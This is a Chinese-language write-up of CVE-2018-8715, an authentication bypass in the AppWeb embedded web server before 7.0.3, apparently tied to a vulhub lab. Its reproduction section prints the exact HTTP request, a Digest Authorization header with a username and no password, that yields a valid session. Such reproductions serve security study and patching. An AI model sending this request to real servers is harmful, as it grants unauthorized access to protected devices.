 ```yaml
---
title: （CVE-2018-8715）AppWeb认证绕过漏洞
id: zhfly2831
---
```


# （CVE-2018-8715）AppWeb认证绕过漏洞

## 一、漏洞简介

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

*   basic 传统HTTP基础认证
*   digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
*   form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

## 二、漏洞影响

AppWeb <=7.0.3

## 三、复现过程

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin 
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![image](../img/82a434cf342a76bdbeb452356babbac5.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![image](../img/19fa28faab0c19b6980c2d83664d97c8.png)

## 参考链接

> https://vulhub.org/#/environments/appweb/CVE-2018-8715/